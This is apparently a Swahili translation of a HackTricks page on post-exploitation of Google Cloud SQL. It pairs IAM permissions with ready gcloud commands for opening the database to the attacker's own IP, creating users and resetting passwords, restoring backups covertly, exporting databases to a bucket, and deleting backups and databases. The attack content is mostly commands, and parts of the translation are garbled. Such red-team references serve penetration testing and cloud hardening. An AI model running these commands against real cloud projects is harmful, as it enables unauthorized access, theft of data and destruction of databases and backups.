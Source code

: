 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Kwa maelezo zaidi kuhusu Cloud SQL angalia:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Ili kuungana na hifadhidata unahitaji **tu ufikiaji wa bandari ya hifadhidata** na kujua **jina la mtumiaji** na **nenosiri**, hakuna mahitaji ya IAM. Hivyo, njia rahisi ya kupata ufikiaji, ikizingatiwa kuwa hifadhidata ina anwani ya IP ya umma, ni kuboresha mitandao iliyoidhinishwa na **kuruhusu anwani yako ya IP kuweza kuifikia**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Ni pia inawezekana kutumia **`--no-backup`** ku **haribu nakala za akiba** za hifadhidata.

Kwa kuwa haya ndiyo mahitaji, siko kabisa na uhakika ni ruhusa zipi **`cloudsql.instances.connect`** na **`cloudsql.instances.login`** zinahusiana nazo. Ikiwa unajua, tuma PR!

### `cloudsql.users.list`

Pata **orodha ya watumiaji wote** wa hifadhidata:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Ruhusa hii inaruhusu **kuunda mtumiaji mpya ndani** ya hifadhidata:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Ruhusa hii inaruhusu **k updating mtumiaji ndani** ya database. Kwa mfano, unaweza kubadilisha nenosiri lake:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups zinaweza kuwa na **habari nyeti za zamani**, hivyo ni muhimu kuziangalia.\
**Rejesha nakala ya akiba** ndani ya hifadhidata:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Ili kufanya hivyo kwa njia ya siri zaidi, inashauriwa kuunda mfano mpya wa SQL na kurejesha data hapo badala ya kwenye hifadhidata zinazotembea sasa.

### `cloudsql.backupRuns.delete`

Ruhusa hii inaruhusu kufuta nakala za akiba:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Export a database** kwa Cloud Storage Bucket ili uweze kuipata kutoka hapo:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Ingiza database** (andika upya) kutoka kwa Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Futa database kutoka kwa mfano wa db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
